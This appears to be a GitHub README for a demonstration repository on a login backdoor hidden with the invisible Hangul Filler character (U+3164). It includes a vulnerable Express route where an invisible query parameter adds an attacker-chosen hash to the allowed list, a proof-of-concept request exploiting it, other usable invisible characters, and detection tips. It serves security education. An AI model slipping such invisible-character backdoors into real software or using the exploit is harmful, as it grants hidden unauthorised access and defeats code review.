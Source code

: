 # Unicode Hangul Filler Backdoor

## Overview

This repository demonstrates how invisible Unicode characters, specifically the Hangul Filler character (U+3164), can be exploited to create hidden backdoors in web applications.

## How It Works

The backdoor exploits invisible Unicode characters in two key ways:

1. **Invisible Parameter Extraction**: Using an invisible Hangul Filler character in destructuring assignment that creates a hidden variable
2. **Hidden Array Element**: Appending an invisible element to an array of valid password hashes

### The Invisible Character

The character used is HANGUL FILLER (U+3164, hex: e3 85 a4), which appears as empty space but is actually a valid Unicode character.

## Technical Details

### The Backdoor Mechanism

In the vulnerable code:

```javascript
app.get('/login', (req, res) => {
    try {
        const { password,ㅤ} = req.query;  // Hidden Hangul Filler after password

        const validHash = [
            '420165201ce6a87ff3f869445a8ba0004b5f2644c63f2b7af551b93b1a03898c',
            'a48aa637f364c4f5564cd4bae216910354cdc305ef8abcbcdaab8ab666363eed',
            '7fbc154e4e245a4e377e5d15245b98370702fd01a4ec5b007f57bd008b0a5534',ㅤ  // Hidden Hangul Filler here
        ];
        
        // Login validation continues...
```

What this actually does (if we replace the invisible character with a visible name):

```javascript
const { password, backdoor } = req.query;
const validHash = [
    '420165201ce6a87ff3f869445a8ba0004b5f2644c63f2b7af551b93b1a03898c',
    'a48aa637f364c4f5564cd4bae216910354cdc305ef8abcbcdaab8ab666363eed',
    '7fbc154e4e245a4e377e5d15245b98370702fd01a4ec5b007f57bd008b0a5534',
    backdoorHash
];
```

## Exploiting the Backdoor

The backdoor can be exploited by sending a request with the hidden parameter:

```javascript
const crypto = require('crypto');
password = "backdoor" // can be any string

const hash = crypto.createHash('sha256').update(password).digest('hex');

// Send request with the invisible parameter (URL encoded as %E3%85%A4)
fetch(`http://server:8000/login?password=${password}&%E3%85%A4=${hash}`)
  .then(response => response.text())
  .then(data => console.log('Response:', data))
  .catch(error => console.error('Error:', error));
```

## Detection and Prevention

### Tools for Detection

1. **VSCode and modern code editors** will highlight unusual Unicode characters
2. **Hex editors** can reveal hidden Unicode characters
3. **Code reviews** should include checks for invisible characters


## Alternative Invisible Characters

Other invisible characters that could possible be used for similar attacks:

- Zero-Width Space (U+200B) - URL encoded as `%E2%80%8B`
- Half-width Hangul Filler (U+FFA0)

## Installation and Usage

1. Clone the repository
   ```
   git clone https://github.com/yourusername/unicode-hangul-backdoor
   ```

2. Install dependencies
   ```
   npm install
   ```

3. Run the server
   ```
   node main.js
   ```

4. Access the demo application at `http://localhost:8000`

## Files

- `main.js` - The vulnerable Express application
- `poc.js` - Proof of concept exploit
- `views/` - EJS templates for the application

## References

- [Unicode Security Considerations](https://www.unicode.org/reports/tr36/)
- [The Trojan Source Attack](https://trojansource.codes/)
- [Unicode Confusables](https://www.unicode.org/Public/security/latest/confusables.txt)

## License

This project is licensed under the MIT License - see the LICENSE file for details.
